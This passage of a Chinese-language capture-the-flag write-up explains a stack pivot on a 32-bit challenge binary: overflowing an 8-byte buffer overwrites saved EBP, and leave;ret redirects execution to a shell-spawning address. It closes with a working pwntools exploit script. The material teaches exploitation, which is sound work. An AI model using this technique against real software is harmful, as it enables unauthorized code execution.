    ebp+0x00 →  │  saved EBP         │  0xffffd1d8  ← 存着 main 的 ebp (0xffffd228)
                ├─  ─ ─  ─ ─ ─ ─ ─ ─┤
                │                    │  0xffffd1d7
                │                    │
                │                    │
                │                    │
                │                    │
                │                    │
                │  [局部缓冲区 8 字节] │  0xffffd1d0  ← memcpy 目标 (ebp - 0x08)
                │                    │  0xffffd1cf
                ├─  ─ ─  ─ ─ ─ ─ ─ ─┤
                │  [栈垃圾]          │  0xffffd1cc
                │                    │  0xffffd1c8
                │                    │  0xffffd1c4  ← calc_md5 读取起点 (ebp - 0x14)
                │  [40 字节栈空间]    │
                │                    │
                │                    │
                │                    │
     esp →      │                    │  0xffffd1b0
                └────────────────────┘

```

我们把8字节覆盖完，是不是就到了ebp?

ebp寄存器占据4字节，刚好能写入某个偏移地址哎

看看我们上面分析的memcpy保存的缓冲区空间，这下再看会不会很清楚？

```bash
    0xffffd1d0  [byte 0]   ─┐
    0xffffd1d1  [byte 1]    │
    0xffffd1d2  [byte 2]    │
    0xffffd1d3  [byte 3]    │
    0xffffd1d4  [byte 4]    │  8 字节局部缓冲区
    0xffffd1d5  [byte 5]    │
    0xffffd1d6  [byte 6]    │
    0xffffd1d7  [byte 7]   ─┘
    0xffffd1d8  [byte 8]   ─┐  ← 这就是 saved EBP
    0xffffd1d9  [byte 9]    │
    0xffffd1da  [byte 10]   │  global_buf[8:12] 写到这里
    0xffffd1db  [byte 11]  ─┘
    0xffffd1dc  [返回地址]    ← 没被碰到
```

接下来看看auth的返回指令`leave,retn`



在计算机组成原理课本里有写过的

```bash
    leave  =  mov esp, ebp     ← STEP 1: ESP = EBP
              pop ebp          ← STEP 2: EBP = [ESP], ESP += 4

    ret    =  pop eip          ← STEP 3: EIP = [ESP], ESP += 4
```

这里的leave会将ebp保存到栈上，带着这些值返回到main函数里的，最开始的ebp是从main那里带过来的，所以说呢，ebp寄存器的本质是存储某个数值，可以被覆盖，因为二进制中，ebp主要作用应该是参考系，可以让指令更好的跳转，不会受它内部的数值的变化而影响

回顾下这里在.bss的写入操作，特别是这里



我上面说过，它是main里的memcpy复制的时候写入的，然后auth里的memcpy就是用来读取这个缓冲区的

至于读取时候用到的其它缓冲区(应该是0xffffxxxx)，我们可以不用考虑，只知道它相对`ebp-8`​,只要读取超过8字节就能覆盖到ebp上了，这里的ebp很重要，核心功能就是我上面提到的参考系，如果伪造了ebp，`leave;ret`中的esp就要改变，它的作用我有说过，是栈顶，然后从esp里弹出eip，就能被ret利用，跳转到我们想要的指令咯

那么这里的payload构造方法应该如下（整体是4+4+4）：

依然是在0x0811eb40写，先写4字节，存储correct函数地址，再写四个垃圾字节过渡，再写4字节，务必指向0x811eb3c，它在`input-4`的位置，然后对这个payload进行base64编码

描述下payload运行的过程：

进行base64解码->写入到`0x0811eb40`​(共写入12字节)->auth中的memcpy进行读取(读取8+4字节)->4字节覆盖ebp->`auth leave;ret`​这里leave的时候，将伪造的ebp带过去了->main的检验失败，`leave;ret`​->`esp=ebp`​，更改栈顶，将视图移动到了`0x0811eb3c`​->pop吞4个字节（指令向下走4字节）来到`0x0811eb40`​，ret读取correct地址的四字节->触发correct->`get shell`

欧克了，本题的exp构造内容如下：`p32(0x0804925F)+b'aaaa'+p32(0x811eb3c)`

> Pwn!!!

不嘻嘻，做法是对的，但是细节有问题，仔细看看correct的汇编代码，这里还有个小校验



我们前面构造的payload是用 `0x0804925F`​ 跳到 correct入口，但 correct 入口会先检查 `input[0:4] == 0xdeadbeef`​，补救办法也有，这里ret过来的地址改成`0x8049278`​就能绕过关卡，直接执行`system("/bin/sh")`

那就使用更新版本的payload：`p32(0x8049278)+b'aaaa'+p32(0x811eb3c)`

```python
from pwn import *
p = process('./pwn')
payload = p32(0x08049278)
payload += b'aaaa'
payload += p32(0x0811eb3c)
p.sendline(b64e(payload))
p.interactive()
```

运行效果：



‍
